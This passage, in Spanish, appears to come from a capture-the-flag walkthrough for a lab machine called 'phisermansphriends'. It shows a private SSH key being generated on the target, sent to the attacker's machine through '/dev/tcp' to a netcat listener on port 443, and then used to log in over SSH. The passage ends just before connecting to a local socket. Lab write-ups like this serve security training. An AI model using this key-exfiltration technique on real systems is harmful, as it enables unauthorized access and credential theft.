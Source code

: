 ```bash
mur@phisermansphriends:~$ sudo /usr/bin/python3 /opt/util.py
Escuchando en localhost:443
Escuchando en localhost:443
```

Lo único que vemos es que esta a la escucha en localhost en el puerto 443. 

Intentamos conectarnos por SSH pero vemos que no podemos conectarnos usando la password;

```bash
ssh mur@10.0.2.15 
mur@10.0.2.15: Permission denied (publickey).
```

Generamos las claves publica/privada y la añadimos al fichero **authorized_keys**:

```bash
mur@phisermansphriends:~$ ssh-keygen -t rsa -b 4096

mur@phisermansphriends:~$ cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
mur@phisermansphriends:~$ chmod 600 ~/.ssh/authorized_keys
```

Nos mandamos a nuestra máquina la clave privada, pero por el puerto 443:

```bash
# mandamos por el puerto 443
mur@phisermansphriends:~$ cat .ssh/id_rsa > /dev/tcp/10.0.2.5/443

$ sudo nc -nlvp 443 > id_mur
[sudo] password for murrusko: 
listening on [any] 443 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.15] 43688
```

Le cambiamos los permisos:

```bash
$ chmod 400 id_mur
```

Y nos conectamos 

```bash
ssh -i id_mur mur@10.0.2.15
Linux phisermansphriends.thl 6.1.0-23-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.99-1 (2024-07-15) x86_64
.-. . . .-. .-. .-. .-. .  . .-. . . .-. 
|-' |-|  |  `-. |-  |(  |\/| |-| |\| `-. 
'   ' ` `-' `-' `-' ' ' '  ` ` ' ' ` `-'
.-. . . .-. .-. .-. . . .-. .-. 
|-' |-| |(   |  |-  |\| |  )`-. 
'   ' ` ' ' `-' `-' ' ` `-' `-' 
Last login: Thu Aug 29 15:11:20 2024
mur@phisermansphriends:~$
```

Ahora ya podemos conectarnos al socket:
